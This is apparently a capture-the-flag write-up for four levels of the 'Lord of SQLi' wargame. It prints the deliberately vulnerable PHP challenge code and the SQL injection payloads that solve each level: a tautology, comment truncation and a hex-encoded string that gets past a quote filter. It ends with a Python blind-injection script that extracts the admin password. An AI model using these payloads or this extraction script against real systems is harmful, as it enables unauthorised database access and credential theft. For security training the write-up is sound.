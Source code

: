 # Lord of Sqli - Writeups

# Level 1 - Gremlin

## Source Code

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

Query :  **select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'**

Here we don’t know the password . So here we just need the query to return 1 row . So we can give 

id as 1 and in the password field we can give ‘ OR ‘1’=’1 .

**Payload** : **id=1&pw=’ OR ‘1’=’1**

# Level 2 - Cobolt

## Source Code

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

Query : **select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')**

Here we can the id returned from the query should be admin . So we can give id as admin’;— -

**Payload** : **id=admin’;— -**

# Level 3 - Goblin

## Source Code

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Here quotes are being blocked .

```php
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
```

Here it the level will be solved if we fetch the row with id = admin but in the query the id is already set to guest, we cannot change that our injection is at no . So if we give something like -1 OR id=’admin’ . 2 rows will be returned the row with id = guest and id = admin . But here quotes in blocked . But fortunately mysql supports strings to be given in hex without quotes .

**Payload : 1 OR id=0x61646D696E;-- -**

# Level 3 - Orc

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
Here we can get the actual password using a blind sql Injection . 

Exploit Script 

```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGJIJKLMNOPQRSTUVWXYZ1234567890'

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
h = {
    "Cookie" : 'PHPSESSID=r4j44kshvu8qe7nk1kfaq1bddb'
}
pw = ''
index = 1
for i in range(100):
    q = f"?pw=' or id='admin' and length(pw)={str(i)};-- -"
    r = requests.get(url+q,headers=h)
    if 'Hello admin' in r.text:
        print(f'Length of password : {str(i)}')
        break


while 1:
    for i in letters:
        q = f"?pw='  or id='admin' and pw like '{pw}{i}%';-- -"
        r = requests.get(url+q,headers=h)
        if 'Hello admin' in r.text:
            index += 1
            pw += i
            break
        print(q)
        print(f'Password : {pw}{i}',end='\r')
```
